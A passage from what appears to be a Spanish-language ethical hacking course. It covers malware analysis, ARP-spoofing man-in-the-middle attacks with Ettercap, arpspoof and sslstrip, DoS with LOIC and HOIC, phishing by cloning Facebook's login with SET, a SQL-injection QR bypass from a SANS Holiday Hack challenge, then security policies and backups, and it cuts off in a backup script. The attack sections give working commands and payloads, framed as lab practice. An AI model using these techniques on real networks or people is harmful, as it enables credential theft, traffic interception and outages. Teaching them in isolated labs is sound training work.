2. **Process Explorer** – para ver procesos activos
3. **Regshot** – tomar capturas del registro antes y después
4. **Wireshark** – capturar tráfico (opcional si simulas red)
5. **Autoruns** – ver programas que se ejecutan al iniciar
6. **FakeNet-NG** o **INetSim** – para simular servidores (avanzado)

---

### ✅ EJEMPLO COMPLETO: Análisis dinámico paso a paso

Supongamos que tienes un archivo sospechoso llamado `malicioso.exe`.

---

#### 🔍 Paso 1: Prepara entorno

1. **Toma snapshot** de la máquina virtual.
2. Abre **Regshot**, toma una primera foto del registro.
3. Abre **Procmon** (filtra solo eventos relacionados con el ejecutable).
4. Abre **Process Explorer**.

---

#### ▶️ Paso 2: Ejecuta el malware

- Haz doble clic en `malicioso.exe`
- Observa en **Procmon**:

  - Archivos que crea (ej: `C:\Users\Admin\AppData\temp\xyz.exe`)
  - Cambios en el registro (ej: claves de inicio automático)

- Observa en **Process Explorer**:

  - Procesos hijos creados
  - Si se inyecta en otro proceso (sospechoso)

---

#### 🕵️ Paso 3: Captura del tráfico de red (opcional)

- Abre **Wireshark** o FakeNet-NG
- Observa si intenta conectarse a:

  - IPs externas (ej: `185.192.80.2`)
  - URLs (ej: `http://stealinfo.ru`)

---

#### 🧾 Paso 4: Comparación de cambios

- En **Regshot**, toma una segunda foto del registro
- Compara:

  - ¿Se agregó algo a `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`?
    → Esto indica persistencia

---

#### 📌 Resultado del análisis:

**Resumen:**

- `malicioso.exe` crea otro archivo oculto
- Modifica el registro para ejecutarse al iniciar Windows
- Intenta conectarse a `http://123.45.67.89/bot.php`
- Se inyecta en `explorer.exe`

**Conclusión:** Es un troyano que se instala, persiste y se conecta con un servidor externo → POSIBLE botnet o robo de información.

---

### 🧠 CONSEJOS FINALES:

| Seguridad                       | Recomendación                                                                                             |
| ------------------------------- | --------------------------------------------------------------------------------------------------------- |
| Máquina virtual sin internet    | Nunca conectes el malware a internet real                                                                 |
| Snapshot antes de empezar       | Para poder volver al estado original                                                                      |
| No abras malware fuera de la VM | Ni en tu celular, ni en tu PC real                                                                        |
| Usa malware de prueba legal     | Como EICAR o muestras en sitios como [malware-traffic-analysis.net](http://malware-traffic-analysis.net/) |

---

### 📚 ¿Dónde practicar legalmente?

- [https://malware-traffic-analysis.net/](https://malware-traffic-analysis.net/)
- [https://thezoo.morirt.com/](https://thezoo.morirt.com/) _(cuidado, usar solo en VM aisladas)_
- [https://any.run](https://any.run) _(sandbox online gratuito con análisis dinámico en tiempo real)_

---

[🔼](#índice)

---

## **885. Sniffing y Cómo realizar un ataque Man in the middle automatico**

### 🕵️‍♂️ ¿Qué es Sniffing?

**Sniffing** es el proceso de **capturar y analizar el tráfico de red** que pasa por una interfaz de red.

#### 🎯 Objetivo:

Ver qué información viaja por la red, como:

- Usuarios y contraseñas
- Cookies de sesión
- Sitios visitados
- Archivos descargados

---

#### 📦 Tipos de sniffing:

| Tipo       | ¿Qué hace?                                                                  |
| ---------- | --------------------------------------------------------------------------- |
| **Pasivo** | Solo escucha el tráfico que pasa, sin interferir (como un espía silencioso) |
| **Activo** | Interfiere para redirigir o manipular tráfico (como en MITM)                |

---

### 🦹 ¿Qué es un ataque **Man-in-the-Middle (MITM)?**

Es un ataque donde el atacante se **interpone entre dos partes que se comunican**, como un router y un usuario.

**Ejemplo simple:**

Imagina que Alice quiere hablar con Bob, pero Eve (el atacante) se mete en medio:

```
Alice --> [Eve (atacante)] --> Bob
```

Alice cree que está hablando con Bob, y Bob cree que está hablando con Alice. Pero **Eve ve todo** y puede incluso **modificar los mensajes**.

---

### 🔧 ¿Qué necesito para practicar?

Usaremos un **entorno seguro de laboratorio con Kali Linux**. No lo hagas en redes reales sin permiso.

#### ✅ Herramientas necesarias (todas vienen en Kali Linux):

- **Ettercap**: para ataques MITM automáticos
- **Wireshark**: para ver el tráfico capturado
- **arpspoof** (opcional)
- **iptables** (para redireccionar tráfico)
- **sslstrip** (para bajar HTTPS a HTTP)

---

### 🖥️ PASO A PASO: Cómo instalar el entorno (si no tienes Kali)

1. **Descargar Kali Linux** desde su web oficial:

   👉 [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

2. **Instálalo en una máquina virtual (VirtualBox o VMware)**
   Configura red en modo “red interna” o “bridge” para que tu Kali pueda interactuar con otras máquinas virtuales (como una víctima con Windows).

---

### 🎯 ESCENARIO DE PRUEBA

- Kali Linux = atacante
- Máquina víctima = Windows 10 (puedes crear otra VM con Windows)

---

### 🔥 PRÁCTICA COMPLETA: Ataque MITM automático con Ettercap

---

#### 🛠 Paso 1: Configura la red

En VirtualBox:

- Ambos (Kali y Windows) deben estar en **red interna** o **modo puente**.

Verifica que Kali pueda hacer ping a la víctima.

```bash
ping 192.168.1.5  # IP de la víctima
```

---

#### 🛠 Paso 2: Activar IP forwarding en Kali

Esto permite que Kali reenvíe tráfico para que la víctima no sospeche.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

#### 🛠 Paso 3: Ejecutar Ettercap

Abre Ettercap en modo gráfico:

```bash
ettercap -G
```

Pasos en la interfaz gráfica:

1. Ir a **Sniff → Unified sniffing**
2. Selecciona la interfaz de red (ej. `eth0` o `enp0s3`)
3. Ve a **Hosts → Scan for hosts**
4. Luego a **Hosts → Host list**

   - Selecciona la IP del **router/gateway** y haz clic en “Add to Target 1”
   - Selecciona la IP de la **víctima** y haz clic en “Add to Target 2”

5. Ve a **Mitm → ARP poisoning**

   - Marca “Sniff remote connections”

6. Finalmente ve a **Start → Start sniffing**

---

#### 🕵️ Paso 4: Captura con Wireshark

Abre Wireshark en Kali y selecciona la misma interfaz (ej. `eth0`) para empezar a ver los paquetes.

Filtra por protocolos interesantes:

```bash
http
ftp
telnet
```

---

#### 🎁 EJEMPLO REAL: Captura de contraseñas HTTP

1. La víctima entra a una web con login no cifrado (ej. [http://testphp.vulnweb.com/login.php](http://testphp.vulnweb.com/login.php))
2. Kali intercepta y ve:

```
POST /login.php HTTP/1.1
username=admin&password=1234
```

🎉 ¡Contraseña capturada!

---

### ⚠️ ¿Cómo funciona técnicamente el ataque?

Usamos **ARP poisoning**, que consiste en enviar respuestas falsas de ARP para engañar a los dispositivos de la red.

> El atacante dice: “¡Hola! Yo soy el router” al usuario
> Y al router le dice: “¡Hola! Yo soy el usuario”

Esto redirige el tráfico a través del atacante.

---

### 🛡 ¿Cómo protegerse?

| Medida de protección      | ¿Cómo ayuda?                                      |
| ------------------------- | ------------------------------------------------- |
| HTTPS en todas las webs   | Evita ver contenido útil al sniffing              |
| Red segmentada            | Dificulta el MITM en redes públicas               |
| IP/MAC estática           | Reduce riesgo de ARP spoofing                     |
| VPN                       | Cifra todo el tráfico, incluso en redes inseguras |
| Detección de ARP spoofing | Herramientas como `arpwatch`, `XArp`              |

---

### 🧠 Conclusión

- **Sniffing** permite capturar tráfico de red.
- **Ataques MITM** son una forma activa de interceptar comunicaciones.
- Con herramientas como **Ettercap** puedes automatizar el proceso fácilmente.
- Solo practícalo en entornos **controlados y legales**.

---

[🔼](#índice)

---

## **886. Sniffing y Cómo realizar un ataque Man in the middle manual**

### 🧠 ¿Qué es Sniffing?

**Sniffing** significa **“husmear” el tráfico de red**. Consiste en capturar los paquetes de datos que viajan entre dispositivos.
Un sniffer permite al atacante ver lo que los usuarios están haciendo en la red: contraseñas, mensajes, sitios web visitados, etc.

---

### 🎭 ¿Qué es un Ataque Man-In-The-Middle (MITM)?

Un **MITM** es cuando un atacante se **interpone entre dos dispositivos que se comunican**, como un router y una víctima, sin que ellos lo noten.
El atacante intercepta, registra o incluso modifica esa información.

**Ejemplo gráfico:**

```
[Víctima] ↔️ [Atacante] ↔️ [Router]
```

---

### 🛠️ Herramientas necesarias para el MITM manual:

Vamos a usar:

| Herramienta             | Uso                                             |
| ----------------------- | ----------------------------------------------- |
| `arpspoof`              | Para engañar a los dispositivos con ARP         |
| `tcpdump` o `wireshark` | Para capturar paquetes                          |
| `iptables`              | Para redireccionar tráfico (si analizamos HTTP) |
| `sslstrip`              | (Opcional) Para bajar HTTPS a HTTP              |

---

### 🔧 PASO A PASO: Preparación del entorno

#### 📥 Paso 1: Instalar Kali Linux (si no lo tienes)

1. Descarga Kali desde: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
2. Instálalo en VirtualBox o VMware.
3. Configura la red en modo **Bridge** o **Red interna** (con otra VM víctima, por ejemplo con Windows o Ubuntu).

---

#### 📡 Paso 2: Verifica conectividad

Verifica que puedes hacer ping desde Kali hacia la víctima:

```bash
ping 192.168.1.5  # IP de la víctima
```

---

### 🔥 MANUAL MITM: Ejemplo completo paso a paso

#### 🧪 ESCENARIO:

- Kali Linux = atacante
- Windows 10 = víctima
- Ambos están en la misma red local

---

#### 🔢 Paso 1: Descubre la IP de la víctima

```bash
netdiscover -r 192.168.1.0/24
```

O usa:

```bash
arp-scan -l
```

Anota:

- IP de la víctima: `192.168.1.5`
- IP del gateway/router: `192.168.1.1`

---

#### 🧰 Paso 2: Activa el reenvío de paquetes (IP forwarding)

Esto es para que la víctima no pierda conexión cuando el tráfico pase por Kali.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

#### 🧨 Paso 3: Ejecuta ARP Spoofing manual

Con `arpspoof`, Kali se hace pasar por el router frente a la víctima y viceversa.

1. Terminal 1 (suplantar el router ante la víctima):

```bash
arpspoof -i eth0 -t 192.168.1.5 192.168.1.1
```

2. Terminal 2 (suplantar la víctima ante el router):

```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.5
```

> Asegúrate de que `eth0` es tu interfaz (verifícalo con `ip a`).

---

#### 🕵️ Paso 4: Captura el tráfico con Wireshark o tcpdump

Ejemplo con `tcpdump`:

```bash
tcpdump -i eth0 -w mitm-captura.pcap
```

O Wireshark:

```bash
wireshark &
```

Filtra por `http`, `ftp`, `telnet` para ver credenciales fácilmente.

---

#### 🌐 Paso 5: Victima navega por sitios HTTP (no HTTPS)

Pídele (o simula) que acceda a una web con login vulnerable:

```http
http://testphp.vulnweb.com/login.php
```

Wireshark mostrará algo como:

```
POST /login.php HTTP/1.1
Host: testphp.vulnweb.com
username=admin&password=123456
```

🎉 ¡Datos interceptados!

---

### 🔒 ¿Y si el sitio usa HTTPS?

Aquí es donde **sslstrip** entra:

1. Redirige tráfico a puerto 10000:

```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```

2. Ejecuta sslstrip:

```bash
sslstrip -l 10000
```

Esto convierte conexiones HTTPS en HTTP (cuando es posible), para ver los datos sin cifrado.

---

### ✅ ¿Cómo revertir el ataque?

1. Detén los procesos `arpspoof`, `sslstrip`, etc.
2. Desactiva el IP forwarding:

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

3. Limpia iptables:

```bash
iptables -F
iptables -t nat -F
```

---

### 🧠 RESUMEN DEL FLUJO:

1. Kali engaña a víctima y router con `arpspoof`
2. Redirige tráfico si quieres usar `sslstrip`
3. Captura tráfico con `tcpdump` o `Wireshark`
4. Observa credenciales y otros datos en sitios HTTP

---

### 📌 CONSEJO

Este ataque puede ser detectado por IDS/IPS modernos o herramientas como `arpwatch` o `XArp`. También falla en redes con protección ARP o tráfico encriptado por VPN.

---

[🔼](#índice)

---

## **887. Denegación de servicio. Ataque DOS con LOIC y HOIC**

### 🧠 ¿Qué es un Ataque de Denegación de Servicio (DoS)?

Un ataque **DoS (Denial of Service)** busca **inutilizar un sistema, servidor o red**, haciendo que no pueda responder a usuarios legítimos. Esto se logra **inundando el servidor con tráfico basura** o **consumiendo todos sus recursos**.

> Imagínate una pizzería que solo tiene una línea telefónica y alguien llama sin parar para que los clientes reales no puedan pedir.

---

#### 🧨 Diferencia entre DoS y DDoS

| Tipo     | Descripción                                           |
| -------- | ----------------------------------------------------- |
| **DoS**  | Un solo atacante lanza el ataque.                     |
| **DDoS** | Ataque distribuido desde múltiples equipos (botnets). |

---

### 🛠️ Herramientas: LOIC y HOIC

#### 1. **LOIC (Low Orbit Ion Cannon)**

- Herramienta para realizar ataques DoS/DDoS.
- Interfaz gráfica.
- Se puede controlar remotamente por IRC.

#### 2. **HOIC (High Orbit Ion Cannon)**

- Más avanzado que LOIC.
- Permite usar “booster scripts”.
- Envío de tráfico HTTP simulado más complejo.

---

### 🔧 Instalación de LOIC y HOIC

> ⚠️ Usa máquinas virtuales y laboratorios locales. Nunca ataques sitios reales.

#### 🖥️ Requisitos:

- Windows o Kali Linux (con Wine)
- Java (para HOIC)
- Entorno de laboratorio con un servidor web (por ejemplo, XAMPP)

---

#### 💻 Instalar LOIC en Windows:

1. Descarga desde un mirror confiable como:
   [https://github.com/NewEraCracker/LOIC](https://github.com/NewEraCracker/LOIC)

2. Extrae el archivo `.zip`.

3. Ejecuta `LOIC.exe`.

---

#### 💻 Instalar HOIC en Windows:

1. Descarga desde:
   [https://sourceforge.net/projects/high-orbit-ion-cannon/](https://sourceforge.net/projects/high-orbit-ion-cannon/)

2. Descomprime y ejecuta `HOIC.exe`.

> Si no abre, asegúrate de tener **.NET Framework** y **Java** instalados.

---

#### 🐧 ¿Y en Kali Linux?

Ambas pueden correr usando **Wine**:

```bash
sudo apt update && sudo apt install wine
```

Luego:

```bash
wine LOIC.exe
wine HOIC.exe
```

---

### 🧪 EJEMPLO COMPLETO DE ATAQUE DoS EN LABORATORIO

#### 📘 Escenario:

- Servidor web local usando **XAMPP**
- Kali Linux o Windows con LOIC
- Ataque desde LOIC a `http://localhost` o `192.168.1.10`

---

#### 🛠️ Paso 1: Configura tu servidor web

En una VM Windows o Kali:

1. Instala XAMPP:
   [https://www.apachefriends.org/es/index.html](https://www.apachefriends.org/es/index.html)

2. Inicia **Apache** y abre en navegador:

   ```
   http://localhost
   ```

---

#### 🚀 Paso 2: Ejecuta LOIC

1. Abre LOIC.
2. En el campo “**IP or URL**”, escribe la IP de tu servidor (por ejemplo `192.168.1.10`).
3. Marca la opción: **"I'm a CHARGING my laser"**.
4. Haz clic en "**FIRE!**".

---

#### 🔥 Resultado esperado

- El servidor empieza a recibir muchas peticiones por segundo.
- Si no está bien configurado o es débil, **el sitio se cuelga o se vuelve lento**.

---

#### 🧪 ¿Y HOIC?

1. Abre HOIC.
2. Haz clic en “+ Add Target”.
3. Agrega la URL del servidor.
4. En “Power” selecciona: `HIGH`.
5. Agrega un “Booster” (opcional).
6. Haz clic en “FIRE TEH LAZER!”.

HOIC simula tráfico web más realista que LOIC.

---

### 📊 Comparación LOIC vs HOIC

| Herramienta | Ventajas                  | Desventajas                          |
| ----------- | ------------------------- | ------------------------------------ |
| **LOIC**    | Fácil, rápido, visible    | Detectable fácilmente, sin camuflaje |
| **HOIC**    | Más realista, usa scripts | Requiere configuración extra, Java   |

---

### 🛡️ ¿Cómo protegerse de ataques DoS?

- Usar firewalls con protección contra DoS.
- Configurar límites de conexión en el servidor.
- Usar servicios anti-DDoS como Cloudflare.
- Monitorear el tráfico en tiempo real.

---

### 📌 CONCLUSIÓN

- LOIC y HOIC son herramientas educativas que muestran cómo funciona un DoS.
- Nunca deben usarse fuera de laboratorios.
- Ayudan a entender cómo defender redes reales.

---

[🔼](#índice)

---

## **888. Ingeniería social**

### 🧠 ¿Qué es la Ingeniería Social?

La **ingeniería social** es el arte de **manipular psicológicamente a una persona** para que **revele información confidencial**, **entregue acceso** o **realice una acción** que compromete la seguridad.

> 🔐 No se ataca la tecnología, sino al **eslabón más débil: el humano**.

---

### 🎯 Ejemplos comunes:

| Tipo de Ataque | Descripción                                             | Ejemplo                                                              |
| -------------- | ------------------------------------------------------- | -------------------------------------------------------------------- |
| **Phishing**   | Envío de correos falsos que imitan a empresas reales.   | Un correo de “tu banco” que te pide ingresar tus credenciales.       |
| **Vishing**    | Llamadas telefónicas fraudulentas.                      | Alguien llama diciendo ser de soporte técnico para obtener tu clave. |
| **Smishing**   | Phishing vía SMS.                                       | Mensaje diciendo que ganaste un premio y debes hacer clic.           |
| **Baiting**    | Ofrecer algo tentador para engañar.                     | Dejar una USB infectada en una oficina con el nombre “Nómina 2025”.  |
| **Pretexting** | Inventar una historia falsa para conseguir información. | Fingir ser del área de RRHH pidiendo datos personales.               |

---

### 🛠️ ¿Cómo se instala un entorno de práctica?

Para aprender ingeniería social de forma ética, puedes **crear un laboratorio con Kali Linux** y herramientas como **SET (Social-Engineer Toolkit)**.

---

### 🐧 Instalación del entorno: Kali Linux + SET

#### 📦 Paso 1: Instalar Kali Linux

Tienes dos opciones:

##### ✅ Opción A: Máquina virtual

1. Instala **VirtualBox**:
   👉 [https://www.virtualbox.org](https://www.virtualbox.org)
2. Descarga imagen de Kali:
   👉 [https://www.kali.org/get-kali/#kali-virtual-machines](https://www.kali.org/get-kali/#kali-virtual-machines)
3. Importa el `.ova` en VirtualBox.

##### ✅ Opción B: USB booteable

1. Usa **Rufus** para crear un USB con la ISO de Kali.
2. Bootea desde el USB para usar Kali en vivo.

---

#### 🔧 Paso 2: Verifica que SET esté instalado

Kali Linux ya incluye **SET**.

Para abrirlo:

```bash
sudo setoolkit
```

Si no está, instálalo con:

```bash
sudo apt update
sudo apt install set
```

---

### 🧪 EJEMPLO COMPLETO: Ataque de Phishing Simulado con SET

> ⚠️ Solo en un laboratorio, **NO lo hagas en redes reales ni con víctimas reales.**

#### 🎯 Objetivo del ataque:

Clonar la página de inicio de sesión de **Facebook** y recolectar credenciales simuladas en red local.

---

#### 🪜 Paso a paso:

##### 1. Abrir SET

```bash
sudo setoolkit
```

##### 2. Menú principal de SET

Selecciona las opciones:

```
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
2) Site Cloner
```

##### 3. Ingresar la IP del atacante

Kali te pedirá:

```
Enter the IP address to which the data will be sent:
```

Escribe tu IP local. Ejemplo:

```
192.168.1.5
```

##### 4. Ingresar el sitio a clonar

Ejemplo:

```
https://facebook.com
```

##### 5. Resultado

SET clona el sitio y levanta un servidor en tu Kali.

Pide a tu víctima (otro equipo en tu red local) que visite:

```
http://192.168.1.5
```

Cuando ingresen usuario y contraseña, esos datos se guardarán en un archivo:

```bash
/root/.set/reports/harvester/
```

---

#### 💡 Simulación segura

Para practicar sin afectar a nadie:

- Usa dos máquinas virtuales (una como atacante, otra como víctima).
- Red local (modo puente o red interna).
- No accedas a servicios reales. Solo simula.

---

### 🛡️ ¿Cómo protegerse de la ingeniería social?

| Defensa                               | Ejemplo                                                         |
| ------------------------------------- | --------------------------------------------------------------- |
| **Concientización**                   | Entrenamientos de phishing en empresas.                         |
| **Doble factor (2FA)**                | Aunque obtengan tu contraseña, no pueden entrar sin tu celular. |
| **Verificar siempre el remitente**    | No hacer clic en correos sospechosos.                           |
| **No abrir archivos o USBs extraños** | Desconfiar de dispositivos encontrados.                         |

---

### 🧩 Conclusión

- La ingeniería social **explota emociones humanas** como la urgencia, el miedo o la curiosidad.
- SET es una herramienta poderosa para entender cómo funcionan los ataques.
- Practica siempre en entornos seguros y éticos.

---

[🔼](#índice)

---

## **889. Políticas de seguridad. Seguridad física y Controles de acceso**

### 📌 1. ¿Qué son las Políticas de Seguridad?

Las **políticas de seguridad** son **reglas escritas** que definen **cómo proteger los activos de una organización**. Estas reglas establecen lo que **se permite**, lo que **se prohíbe** y cómo se **responde** a incidentes.

#### 🧠 Ejemplo fácil:

Imagina que trabajas en un colegio y hay una regla que dice:
**"Nadie puede entrar al laboratorio sin identificación y sin registrarse."**
👉 Eso es una política de seguridad **física y de acceso.**

---

### 📌 2. Tipos de políticas (simples y claras)

| Tipo de política                       | ¿Qué protege?                    | Ejemplo sencillo                                 |
| -------------------------------------- | -------------------------------- | ------------------------------------------------ |
| **Política de contraseñas**            | Cuentas de usuario               | Mínimo 8 caracteres, cambiar cada 90 días.       |
| **Política de acceso**                 | Recursos físicos o digitales     | Solo el personal de TI puede entrar al servidor. |
| **Política de uso aceptable**          | Internet, software, dispositivos | No descargar películas en equipos del trabajo.   |
| **Política de respaldo**               | Datos                            | Hacer backup semanal de la base de datos.        |
| **Política de respuesta a incidentes** | Cómo actuar ante ataques         | Si hay malware, desconectar equipo y avisar.     |

---

### 📌 3. Seguridad física

La **seguridad física** protege **el lugar donde están los datos, servidores, equipos o personas**.

#### 🔒 Ejemplos fáciles:

- Cerraduras en los racks de servidores.
- Cámaras de vigilancia.
- Tarjetas magnéticas para entrar.
- Guardias de seguridad.
- Alarmas contra incendios o robos.

> 🧠 No sirve tener un firewall si cualquiera puede entrar y robar tu computadora.

---

### 📌 4. Controles de acceso

Los **controles de acceso** determinan **quién puede entrar a un lugar físico o acceder a datos digitales**.

#### 🔐 Tipos de controles:

| Tipo           | Ejemplo físico                    | Ejemplo lógico (digital)                          |
| -------------- | --------------------------------- | ------------------------------------------------- |
| **Preventivo** | Puerta con tarjeta                | Contraseña y autenticación 2FA                    |
| **Detectivo**  | Cámaras o alarmas                 | Logs de acceso y alertas                          |
| **Correctivo** | Guardia que responde al incidente | Sistema que bloquea cuenta tras intentos fallidos |

---

### 🛠️ ¿Cómo se "instala" esto? (Implementación real)

**Instalar controles de acceso y seguridad física** significa **adoptar herramientas, prácticas y normas**.

#### 🔧 Ejemplos:

- Instalar **una cerradura con lector de huella digital** en la sala de servidores.
- Configurar en un sistema que los usuarios **no puedan acceder fuera de su horario laboral**.
- Aplicar **software de control de acceso** como:

  - **Active Directory (Windows)**: Para dar o negar acceso a carpetas, redes o recursos.
  - **FreeIPA o LDAP (Linux)**: Para controlar el acceso a nivel de dominio.

---

### 🧪 EJEMPLO COMPLETO (SENCILLO)

**Escenario:**
Una empresa pequeña quiere proteger su sala de servidores y sus datos.

---

#### ✅ Paso 1: Políticas escritas

Se define:

- Solo el equipo de TI puede ingresar al cuarto de servidores.
- La puerta del servidor debe estar cerrada con cerradura digital.
- El acceso remoto al sistema se permite solo desde IPs autorizadas.
- Se debe registrar todo ingreso físico y digital.

---

#### ✅ Paso 2: Seguridad física

Se instala:

- Cerradura con huella digital en la sala del servidor.
- Cámara en la entrada.
- UPS para proteger cortes eléctricos.
- Sensor de humo.

---

#### ✅ Paso 3: Controles de acceso

##### A nivel físico:

- El técnico de TI **Juan Pérez** tiene permiso de acceso con su huella.

##### A nivel lógico:

- En Active Directory:

  - Juan accede a la carpeta `\\Servidor\TI\Backups`
  - El personal de contabilidad **no** puede acceder ahí.

---

#### ✅ Paso 4: Prueba

Juan entra al cuarto con su huella ➝ acceso permitido.
Ana de contabilidad intenta ingresar ➝ acceso denegado.

Juan intenta entrar a su carpeta desde su laptop en casa ➝ bloqueado (su IP no es permitida).

---

#### ✅ Paso 5: Auditoría

- La cámara graba cada entrada.
- Los logs del sistema muestran quién accedió, cuándo y desde dónde.
- Si algo falla, el equipo revisa políticas y aplica correctivos.

---

### 🛡️ Conclusión:

| Elemento            | Importancia                             |
| ------------------- | --------------------------------------- |
| Políticas escritas  | Define reglas claras y evita confusión  |
| Seguridad física    | Protege tus activos físicos             |
| Controles de acceso | Evita accesos indebidos                 |
| Auditoría           | Detecta incidentes y permite investigar |

---

[🔼](#índice)

---

## **890. Práctica: Bypass autenticación QR (Reto 6 SANS Holiday hack)**

### 🧐 ¿Qué implica este reto?

- Se trata de una **autenticación por QR** (como una tarjeta de acceso).
- Se detectó que el sistema probablemente sufre de **inyección SQL** al procesar el contenido del QR.
- El objetivo es **manipular el valor del QR** para forzar el sistema a autenticarte.

---

### ⚙️ ¿Qué necesitas para practicar?

| Elemento            | Descripción                                                   |
| ------------------- | ------------------------------------------------------------- |
| Ambiente controlado | Máquina virtual local con entorno web o emulador de SANS      |
| Herramientas        | Generador de QR (web o script Python con `qrcode`), navegador |
| Entorno offline     | Evita hacer pruebas en sistemas reales sin permiso            |

---

### 🛠️ Instalación / Preparación del entorno

1. **Entorno local**:

   - Puedes recrear un formulario HTTP que reciba una imagen QR.
   - Alternativamente, simula el reto con un pequeño servidor que lea el contenido del QR y lo pase a una consulta SQL (por ejemplo, en Python o PHP).

2. **Generador de códigos QR**:

   - Puedes usar sitios como [the-qrcode-generator.com](https://www.the-qrcode-generator.com/) o instalar Python:

     ```bash
     pip install qrcode requests
     ```

3. **Captura del permiso inicial**:

   - Lee el QR de ejemplo (como `oRfjg5uGHmbduj2m`) usando un decoder como [zxing.org](https://zxing.org/w/decode.jspx).

---

### 🧪 EJEMPLO COMPLETO: Bypass de autenticación QR con inyección SQL

#### 🔍 Paso 1: Analizar el valor del QR original

- Se decodifica: `oRfjg5uGHmbduj2m` ([Medium][1], [InfosecETC][2], [Platzi][3])
- Esto revela que el sistema simplemente toma ese valor para buscar en la tabla `employees`:

  ```sql
  SELECT first_name,last_name,enabled FROM employees WHERE authorized = 1 AND uid = '<valor>' LIMIT 1;
  ```

---

#### 🚧 Paso 2: Probar inyección básica

Agrega comilla simple para generar error SQL:

```
oRfjg5uGHmbduj2m'
```

El sistema responde:

```
SQL syntax error
```

Esto confirma que el campo es vulnerable ([InfosecETC][2], [Platzi][3])

---

#### 🧠 Paso 3: Bypass básico con OR 1=1

Genera un QR con:

```
oRfjg5uGHmbduj2m' OR '1'='1
```

Respuesta:

```
Authorized User Account Has Been Disabled
```

Esto significa que la función login pasó la condición, pero marcó `enabled = false` ([Medium][1], [InfosecETC][2])

---

#### 🎯 Paso 4: Injerto final para acceso

Se construyó un payload que fuerza `enabled = '1'`:

```
oRfjg5uGHmbduj2m' OR '1'='1' AND enabled = '1
```

Genera un nuevo QR con ese valor codificado.
¡El panel dice:
**"User Access Granted - Control number 19880715"**!
Ese es el número de control final ([InfosecETC][2])

---

### 📝 Script Python de ejemplo (opcional)

```python
import qrcode

payload = "oRfjg5uGHmbduj2m' OR '1'='1' AND enabled = '1"
qr = qrcode.make(payload)
qr.save("bypass_qr.png")
print("QR generado con payload:", payload)
```

Luego envía `bypass_qr.png` al sistema simulador o WebForm local para procesarlo.

---

### 📋 Resumen del flujo

| Paso             | Acción                        | Resultado esperado                       |
| ---------------- | ----------------------------- | ---------------------------------------- |
| Escaneo QR       | Decodificar el valor base     | `oRfjg5uGHmbduj2m`                       |
| Inyección básica | Agregar `'` al final          | Error SQL                                |
| Bypass parcial   | `' OR '1'='1`                 | Usuario encontrado, pero deshabilitado   |
| Bypass final     | `' OR '1'='1' AND enabled='1` | Acceso concedido, muestra control number |

---

### ✅ Conclusión

- El reto combina **ingeniería inversa de un sistema de autenticación** con **inyección SQL dentro de un QR**.
- Se resolvió manipulando el contenido del QR para forzar lógica positiva y condición `enabled = '1'`.
- Ejemplo fácil de entender y replicar en laboratorio local con Python o servidor de prueba.

[1]: https://medium.com/%40christoferdirk/the-2018-sans-holiday-hack-challenge-objective-6-162cda2b2816?utm_source=chatgpt.com "The 2018 SANS Holiday Hack Challenge: Objective 6 - Medium"
[2]: https://infosecetc.github.io/hhc18/Objectives/6-badge.html?utm_source=chatgpt.com "Badge Manipulation - 2018 SANS Holiday Hack Challenge Solution"
[3]: https://platzi.com/cursos/ethical-hacking/practica-bypass-autenticacion-qr-reto-6-sans-holid/?utm_source=chatgpt.com "Resolución de Retos de Seguridad en San Holidays Challenge"

---

[🔼](#índice)

---

## **891. Copias de seguridad. Defensa en lo profundo**

### 🛡️ ¿Qué es “Defensa en profundidad”?

La **Defensa en profundidad** (Defence in Depth) es una **estrategia de seguridad cibernética** que no depende de una única capa de defensa. En lugar de eso, usa **múltiples capas de protección** para minimizar el riesgo de un ataque exitoso.

#### 🔐 Ejemplo sencillo:

Imagina que quieres proteger tu casa. ¿Qué harías?

1. Pones **puertas con cerradura**.
2. Agregas una **reja**.
3. Instalas **cámaras de seguridad**.
4. Contratas un **vigilante**.
5. Guardas lo más valioso en una **caja fuerte**.

➡️ **Eso es defensa en profundidad.**

En el mundo digital:

| Capa                | Ejemplo                                     |
| ------------------- | ------------------------------------------- |
| Perímetro           | Firewall, router seguro                     |
| Red                 | VLAN, IDS/IPS                               |
| Aplicaciones        | Autenticación, actualizaciones              |
| Dispositivos        | Antivirus, cifrado de disco                 |
| Usuario final       | Educación, contraseñas seguras              |
| Copias de seguridad | Backups para restaurar en caso de incidente |

---

### 💾 ¿Qué son las copias de seguridad?

Una **copia de seguridad (backup)** es una **réplica de los datos importantes** que se almacena en un lugar seguro. Si hay un ataque (por ejemplo, ransomware), pérdida accidental o fallo de hardware, puedes **recuperar la información**.

---

#### 🔁 Tipos de copia de seguridad

| Tipo               | Descripción breve                                               |
| ------------------ | --------------------------------------------------------------- |
| Completa           | Copia total de todos los archivos. Lenta pero confiable.        |
| Incremental        | Solo copia lo que ha cambiado desde el último backup. Rápida.   |
| Diferencial        | Copia lo que cambió desde el último backup completo.            |
| Imagen del sistema | Copia exacta del disco completo (incluye el sistema operativo). |

---

#### 🧠 Ejemplo práctico de respaldo

Supón que eres dueño de una tienda y todos los días guardas tus ventas en un archivo llamado `ventas.xlsx`. Si un día tu computadora se daña, y no tienes backup, **pierdes todo**.

Ahora imagina que haces una copia diaria de ese archivo en Google Drive y otra en un disco externo. Entonces, **aunque te hackeen o se borre todo, tienes cómo restaurarlo**.

---

### 🛠️ ¿Cómo se instala un sistema de backup?

#### Opción 1: Usar **Duplicati** (Windows, Linux, Mac)

**Duplicati** es gratuito, encriptado y fácil de usar.

##### Instalación (Windows o Linux)

1. Ve a: [https://www.duplicati.com/download](https://www.duplicati.com/download)
2. Instala el programa.
3. Abre el panel web.
4. Crea una nueva copia de seguridad:

   - Selecciona los archivos o carpetas.
   - Elige destino: disco externo, FTP, Google Drive, Dropbox, etc.
   - Programa: todos los días a las 9 p.m.
   - Encripta con una contraseña fuerte.

5. ¡Listo! Duplicati hará copias automáticas.

---

#### Opción 2: Copia de seguridad simple con script en Linux

```bash
#!/bin/bash
# Backup de la carpeta /home/gustavo
fecha=$(date +%Y-%m-%d)
